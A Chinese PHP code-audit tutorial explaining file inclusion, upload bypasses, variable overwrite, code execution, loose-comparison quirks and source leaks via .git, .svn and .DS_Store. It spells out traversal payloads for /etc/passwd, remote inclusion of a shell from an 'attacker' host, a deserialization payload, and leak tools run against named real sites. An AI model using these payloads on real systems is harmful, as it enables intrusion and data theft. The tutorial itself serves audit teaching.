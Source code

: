 PHP 代码审计
============

文件包含
--------

常见的导致文件包含的函数有：

-  PHP：\ ``include()``include_once()``require()``require_once()``
   ``fopen()`` ``readfile()`` 等
-  JSP / Servlet：\ ``ava.io.File()``java.io.FileReader()``\ 等
-  ASP：\ ``includefile``includevirtual`` 等

当 PHP 包含一个文件时，会将该文件当做 PHP
代码执行，而不会在意文件时什么类型。

本地文件包含
~~~~~~~~~~~~

本地文件包含，Local File Inclusion，LFI。

.. code:: php

    <?php
    $file = $_GET['file'];
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
      include '/home/wwwrun/'.$file.'.php';
    }
    ?>

上述代码存在本地文件包含，可用 %00 截断的方式读取 ``/etc/passwd``
文件内容。

-  %00 截断

``?file=../../../../../../../../../etc/passwd%00``

需要 ``magic_quotes_gpc=off``\ ，PHP 小于 5.3.4 有效。

-  路径长度截断

``?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.``

Linux 需要文件名长于 4096，Windows 需要长于 256。

-  点号截断

``?file=../../../../../../../../../boot.ini/………[…]…………``

只适用 Windows，点号需要长于 256。

远程文件包含
~~~~~~~~~~~~

远程文件包含，Remote File Inclusion，RFI。

.. code:: php

    <?php
    if ($route == "share") {
      require_once $basePath . "/action/m_share.php";
    } elseif ($route == "sharelink") {
      require_once $basePath . "/action/m_sharelink.php";
    }

构造变量 ``basePath`` 的值。

::

    /?basePath=http://attacker/phpshell.txt?

最终的代码执行了

.. code:: php

    require_once "http://attacker/phpshell.txt?/action/m_share.php";

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

-  普通远程文件包含

``?file=[http|https|ftp]://example.com/shell.txt``

需要 ``allow_url_fopen=On`` 并且 ``allow_url_include=On``\ 。

-  利用 PHP 流 input

``?file=php://input``

需要 ``allow_url_include=On``\ 。

-  利用 PHP 流 filter

``?file=php://filter/convert.base64-encode/resource=index.php``

需要 ``allow_url_include=On``\ 。

-  利用 data URIs

``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=``

需要 ``allow_url_include=On``\ 。

-  利用 XSS 执行

``?file=http://127.0.0.1/path/xss.php?xss=phpcode``

需要
``allow_url_fopen=On``\ ，\ ``allow_url_include=On``\ 并且防火墙或者白名单不允许访问外网时，先在同站点找一个
XSS 漏洞，包含这个页面，就可以注入恶意代码了。

文件上传
--------

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传
web 脚本能够被服务器解析的问题，也就是所谓的 webshell
问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 web
容器执行，其次用户能从 web
上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

绕过上传检查
~~~~~~~~~~~~

-  前端检查扩展名

抓包绕过即可。

-  ``Content-Type`` 检测文件类型

抓包修改 ``Content-Type`` 类型，使其符合白名单规则。

-  服务端添加后缀

尝试 %00 截断。

-  服务端扩展名检测

利用解析漏洞。

-  Apache 解析

   ``phpshell.php.rar.rar.rar.rar`` 因为 Apache 不认识 ``.rar``
   这个文件类型，所以会一直遍历后缀到 ``.php``\ ，然后认为这是一个 PHP
   文件。

-  IIS 解析

   IIS 6 下当文件名为 ``abc.asp;xx.jpg`` 时，会将其解析为
   ``abc.asp``\ 。

-  PHP CGI 路径解析

   当访问 ``http://www.a.com/path/test.jpg/notexist.php`` 时，会将
   ``test.jpg`` 当做 PHP 解析，\ ``notexist.php``\ 是不存在的文件。此时
   Nginx 的配置如下

   .. code:: nginx

       location ~ \.php$ {
         root html;
         fastcgi_pass 127.0.0.1:9000;
         fastcgi_index index.php;
         fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
         include fastcgi_param;
       }

-  其他方式

后缀大小写、双写、特殊后缀如 ``php5`` 等，修改包内容的大小写过 WAF 等。

变量覆盖
--------

全局变量覆盖
~~~~~~~~~~~~

变量如果未被初始化，且能够用户所控制，那么很可能会导致安全问题。

.. code:: ini

    register_globals=ON

示例

.. code:: php

    <?php
    echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

    if ($auth) {
      echo "private!";
    }
    ?>

当 ``register_globals=ON`` 时，提交
``test.php?auth=1``\ ，\ ``auth``\ 变量将自动得到赋值。

``extract()`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~

``extract()`` 函数能够将变量从数组导入到当前的符号表，其定义为

::

    int extract ( array $var_array [, int $extract_type [, string $prefix ]] )

其中，第二个参数指定函数将变量导入符号表时的行为，最常见的两个值是
``EXTR_OVERWRITE`` 和 ``EXTR_SKIP``\ 。

当值为 ``EXTR_OVERWRITE``
时，在将变量导入符号表的过程中，如果变量名发生冲突，则覆盖所有变量；值为
``EXTR_SKIP`` 则表示跳过不覆盖。若第二个参数未指定，则在默认情况下使用
``EXTR_OVERWRITE``\ 。

.. code:: php

    <?php
    $auth = "0";
    extract($_GET);

    if ($auth == 1) {
      echo "private!";
    } else {
      echo "public!";
    }
    ?>

当 ``extract()``
函数从用户可以控制的数组中导出变量时，可能发生变量覆盖。

``import_request_variables`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    bool import_request_variables (string $types [, string $prefix])

``import_request_variables`` 将 GET、POST、Cookies
中的变量导入到全局，使用这个函数只用简单地指定类型即可。

.. code:: php

    <?php
    $auth = "0";
    import_request_variables("G");

    if ($auth == 1) {
      echo "private!";
    } else {
      echo "public!";
    }
    ?>

``import_request_variables("G")`` 指定导入 GET 请求中的变量，提交
``test.php?auth=1`` 出现变量覆盖。

``parse_str()`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~~~

::

    void parse_str ( string $str [, array &$arr ])

``parse_str()`` 函数通常用于解析 URL 中的
querystring，但是当参数值可以被用户控制时，很可能导致变量覆盖。

.. code:: php

    // var.php?var=new  变量覆盖
    $var = "init";
    parse_str($_SERVER["QUERY_STRING"]);
    print $var;

与 ``parse_str()`` 类似的函数还有 ``mb_parse_str()``\ 。

命令执行
--------

直接执行代码
~~~~~~~~~~~~

PHP 中有不少可以直接执行代码的函数。

.. code:: php

    eval();
    assert();
    system();
    exec();
    shell_exec();
    passthru();
    escapeshellcmd();
    pcntl_exec();
    等

``preg_replace()`` 代码执行
~~~~~~~~~~~~~~~~~~~~~~~~~~~

``preg_replace()`` 的第一个参数如果存在 ``/e``
模式修饰符，则允许代码执行。

.. code:: php

    <?php
    $var = "<tag>phpinfo()</tag>";
    preg_replace("/<tag>(.*?)<\/tag>/e", "addslashes(\\1)", $var);
    ?>

如果没有 ``/e`` 修饰符，可以尝试 %00 截断。

动态函数执行
~~~~~~~~~~~~

用户自定义的函数可以导致代码执行。

.. code:: php

    <?php
    $dyn_func = $_GET["dyn_func"];
    $argument = $_GET["argument"];
    $dyn_func($argument);
    ?>

反引号命令执行
~~~~~~~~~~~~~~

.. code:: php

    <?php
    echo `ls -al`;
    ?>

Curly Syntax
~~~~~~~~~~~~

PHP 的 Curly Syntax
也能导致代码执行，它将执行花括号间的代码，并将结果替换回去。

.. code:: php

    <?php
    $var = "aaabbbccc ${`ls`}";
    ?>

.. code:: php

    <?php
    $foobar = "phpinfo";
    ${"foobar"}();
    ?>

回调函数
~~~~~~~~

很多函数都可以执行回调函数，当回调函数用户可控时，将导致代码执行。

.. code:: php

    <?php
    $evil_callback = $_GET["callback"];
    $some_array = array(0,1,2,3);
    $new_array = array_map($evil_callback, $some_array);
    ?>

攻击 payload

::

    http://www.a.com/index.php?callback=phpinfo

反序列化
~~~~~~~~

如果 ``unserialize()`` 在执行时定义了 ``__destruct()`` 或 ``__wakeup()``
函数，则有可能导致代码执行。

.. code:: php

    <?php
    class Example {
      var $var = "";
      function __destruct() {
        eval($this->$var);
      }
    }
    unserialize($_GET["saved_code"]);
    ?>

攻击 payload

::

    http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

PHP 特性
--------

数组
~~~~

.. code:: php

    <?php
    $var = 1;
    $var = array();
    $var = "string";
    ?>

php 不会严格检验传入的变量类型，也可以将变量自由的转换类型。

比如在 ``$a == $b`` 的比较中

::

    $a = null; 
    $b = false; //为真 
    $a = ''; 
    $b = 0; //同样为真

然而，PHP
内核的开发者原本是想让程序员借由这种不需要声明的体系，更加高效的开发，所以在几乎所有内置函数以及基本结构中使用了很多松散的比较和转换，防止程序中的变量因为程序员的不规范而频繁的报错，然而这却带来了安全问题。

.. code:: php

    0=='0' //true
    0 == 'abcdefg' //true
    0 === 'abcdefg' //false
    1 == '1abcdef' //true

魔法 Hash
~~~~~~~~~

.. code:: php

    "0e132456789"=="0e7124511451155" //true
    "0e123456abc"=="0e1dddada" //false
    "0e1abc"=="0"  //true

在进行比较运算时，如果遇到了\ ``0e\d+``\ 这种字符串，就会将这种字符串解析为科学计数法。所以上面例子中
2 个数的值都是 0
因而就相等了。如果不满足\ ``0e\d+``\ 这种模式就不会相等。

十六进制转换
~~~~~~~~~~~~

.. code:: php

    "0x1e240"=="123456" //true
    "0x1e240"==123456 //true
    "0x1e240"=="1e240" //false

当其中的一个字符串是 ``0x`` 开头的时候，PHP
会将此字符串解析成为十进制然后再进行比较，\ ``0x1240``\ 解析成为十进制就是
123456，所以与 ``int`` 类型和 ``string`` 类型的 123456 比较都是相等。

类型转换
~~~~~~~~

常见的转换主要就是 ``int`` 转换为 ``string``\ ，\ ``string``\ 转换为
``int``\ 。

**``int`` 转 ``string``\ ：**

.. code:: php

    $var = 5;
    方式1：$item = (string)$var;
    方式2：$item = strval($var);

**``string`` 转 ``int``**\ ：\ ``intval()``\ 函数。

对于这个函数，可以先看 2 个例子。

.. code:: php

    var_dump(intval('2')) //2
    var_dump(intval('3abcd')) //3
    var_dump(intval('abcd')) //0

说明\ ``intval()``\ 转换的时候，会将从字符串的开始进行转换知道遇到一个非数字的字符。即使出现无法转换的字符串，\ ``intval()``\ 不会报错而是返回
0。

同时，程序员在编程的时候也不应该使用如下的这段代码：

.. code:: php

    if(intval($a)>1000) {
     mysql_query("select * from news where id=".$a)
    }

这个时候 ``$a`` 的值有可能是 ``1002 union``\ 。

内置函数的参数的松散性
~~~~~~~~~~~~~~~~~~~~~~

内置函数的松散性说的是，调用函数时给函数传递函数无法接受的参数类型。解释起来有点拗口，还是直接通过实际的例子来说明问题，下面会重点介绍几个这种函数。

**md5()**

.. code:: php

    $array1[] = array(
     "foo" => "bar",
     "bar" => "foo",
    );
    $array2 = array("foo", "bar", "hello", "world");
    var_dump(md5($array1)==var_dump($array2)); //true

PHP 手册中的 md5（）函数的描述是
``string md5 ( string $str [, bool $raw_output = false ] )``\ ，\ ``md5()``\ 中的需要是一个
string 类型的参数。但是当你传递一个 array
时，\ ``md5()``\ 不会报错，只是会无法正确地求出 array 的 md5
值，这样就会导致任意 2 个 array 的 md5 值都会相等。

**strcmp()**

``strcmp()``\ 函数在 PHP 官方手册中的描述是
``intstrcmp ( string $str1 ， string $str2 )``\ ，需要给 ``strcmp()``
传递 2 个 ``string`` 类型的参数。如果 ``str1`` 小于
``str2``\ ，返回-1，相等返回 0，否则返回
1。\ ``strcmp()``\ 函数比较字符串的本质是将两个变量转换为
ASCII，然后进行减法运算，然后根据运算结果来决定返回值。

如果传入给出\ ``strcmp()``\ 的参数是数字呢？

.. code:: php

    $array=[1,2,3];
    var_dump(strcmp($array,'123')); //null,在某种意义上null也就是相当于false。

**switch()**

如果\ ``switch()``\ 是数字类型的 case 的判断时，switch
会将其中的参数转换为 int 类型。如下：

.. code:: php

    $i ="2abc";
    switch ($i) {
    case 0:
    case 1:
    case 2:
     echo "i is less than 3 but not negative";
     break;
    case 3:
     echo "i is 3";
    }

这个时候程序输出的是\ ``i is less than 3 but not negative``\ ，是由于\ ``switch()``\ 函数将\ ``$i``\ 进行了类型转换，转换结果为
2。

**in\_array()**

在 PHP
手册中，\ ``in_array()``\ 函数的解释是\ ``bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )``
,如果strict参数没有提供，那么in\_array就会使用松散比较来判断\ ``$needle``\ 是否在\ ``$haystack``\ 中。当
strince 的值为 true 时，\ ``in_array()``\ 会比较 needls 的类型和
haystack 中的类型是否相同。

.. code:: php

    $array=[0,1,2,'3'];
    var_dump(in_array('abc', $array)); //true
    var_dump(in_array('1bc', $array)); //true

可以看到上面的情况返回的都是 true，因为\ ``'abc'``\ 会转换为
0，\ ``'1bc'``\ 转换为 1。

``array_search()``\ 与\ ``in_array()``\ 也是一样的问题。

寻找源代码备份
--------------

hg 源码泄露
~~~~~~~~~~~

``hg init`` 时会产生 ``.hg`` 文件。

`利用工具 dvcs-ripper <https://github.com/kost/dvcs-ripper>`__\ 。

Git 源码泄露
~~~~~~~~~~~~

``.git``
目录内有代码的变更记录等文件，如果部署时该目录下的文件可被访问，可能会被利用来恢复源代码。

::

    /.git
    /.git/HEAD
    /.git/index
    /.git/config
    /.git/description

`GitHack <https://github.com/lijiejie/GitHack>`__

.. code:: shell

    python GitHack.py http://www.openssl.org/.git/

`GitHacker(可恢复完整 Git
仓库) <https://github.com/WangYihang/GitHacker>`__

.. code:: shell

    python GitHacker.py http://www.openssl.org/.git/

``.DS_Store`` 文件泄露
~~~~~~~~~~~~~~~~~~~~~~

Mac OS 中会包含有 ``.DS_Store`` 文件，包含文件名等信息。

`利用工具
ds＿store＿exp <https://github.com/lijiejie/ds_store_exp>`__\ 。

.. code:: shell

    python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

    hd.zj.qq.com/
    └── themes
        └── galaxyw
            ├── app
            │   └── css
            │       └── style.min.css
            ├── cityData.min.js
            ├── images
            │   └── img
            │       ├── bg-hd.png
            │       ├── bg-item-activity.png
            │       ├── bg-masker-pop.png
            │       ├── btn-bm.png
            │       ├── btn-login-qq.png
            │       ├── btn-login-wx.png
            │       ├── ico-add-pic.png
            │       ├── ico-address.png
            │       ├── ico-bm.png
            │       ├── ico-duration-time.png
            │       ├── ico-pop-close.png
            │       ├── ico-right-top-delete.png
            │       ├── page-login-hd.png
            │       ├── pic-masker.png
            │       └── ticket-selected.png
            └── member
                ├── assets
                │   ├── css
                │   │   ├── ace-reset.css
                │   │   └── antd.css
                │   └── lib
                │       ├── cityData.min.js
                │       └── ueditor
                │           ├── index.html
                │           ├── lang
                │           │   └── zh-cn
                │           │       ├── images
                │           │       │   ├── copy.png
                │           │       │   ├── localimage.png
                │           │       │   ├── music.png
                │           │       │   └── upload.png
                │           │       └── zh-cn.js
                │           ├── php
                │           │   ├── action_crawler.php
                │           │   ├── action_list.php
                │           │   ├── action_upload.php
                │           │   ├── config.json
                │           │   ├── controller.php
                │           │   └── Uploader.class.php
                │           ├── ueditor.all.js
                │           ├── ueditor.all.min.js
                │           ├── ueditor.config.js
                │           ├── ueditor.parse.js
                │           └── ueditor.parse.min.js
                └── static
                    ├── css
                    │   └── page.css
                    ├── img
                    │   ├── bg-table-title.png
                    │   ├── bg-tab-say.png
                    │   ├── ico-black-disabled.png
                    │   ├── ico-black-enabled.png
                    │   ├── ico-coorption-person.png
                    │   ├── ico-miss-person.png
                    │   ├── ico-mr-person.png
                    │   ├── ico-white-disabled.png
                    │   └── ico-white-enabled.png
                    └── scripts
                        ├── js
                        └── lib
                            └── jquery.min.js

    21 directories, 48 files

网站备份文件
~~~~~~~~~~~~

管理员备份网站文件后错误地将备份放在 Web 目录下。

常见的后缀名：

::

    .rar
    .zip
    .7z
    .tar
    .tar.gz
    .bak
    .txt

SVN 泄露
~~~~~~~~

敏感文件：

::

    /.svn
    /.svn/wc.db
    /.svn/entries

`dvcs-ripper <https://github.com/kost/dvcs-ripper>`__

.. code:: shell

    perl rip-svn.pl -v -u http://www.example.com/.svn/

`Seay - SVN <http://tools.40huo.cn/#!web.md#源码泄露>`__

WEB-INF / web.xml 泄露
~~~~~~~~~~~~~~~~~~~~~~

WEB-INF 是 Java Web 应用的安全目录，web.xml 中有文件的映射关系。

WEB-INF 主要包含一下文件或目录：

-  ``/WEB-INF/web.xml``\ ：Web 应用程序配置文件，描述了 servlet
   和其他的应用组件配置及命名规则。
-  ``/WEB-INF/classes/``\ ：含了站点所有用的 class 文件，包括 servlet
   class 和非 servlet class，他们不能包含在。jar 文件中。
-  ``/WEB-INF/lib/``\ ：存放 web 应用需要的各种 JAR
   文件，放置仅在这个应用中要求使用的 jar 文件，如数据库驱动 jar 文件。
-  ``/WEB-INF/src/``\ ：源码目录，按照包名结构放置各个 java 文件。
-  ``/WEB-INF/database.properties``\ ：数据库配置文件。

通过找到 web.xml 文件，推断 class 文件的路径，最后直接 class
文件，在通过反编译 class 文件，得到网站源码。 一般情况，jsp
引擎默认都是禁止访问 WEB-INF 目录的，Nginx 配合 Tomcat
做均衡负载或集群等情况时，问题原因其实很简单，Nginx
不会去考虑配置其他类型引擎（Nginx 不是 jsp
引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改
Nginx 配置文件禁止访问 WEB-INF 目录就好了：

.. code:: nginx

    location ~ ^/WEB-INF/* { deny all; } # 或者return 404; 或者其他！

CVS 泄露
~~~~~~~~

::

    http://url/CVS/Root 返回根信息
    http://url/CVS/Entries 返回所有文件的结构

取回源码

.. code:: shell

    bk clone http://url/name dir
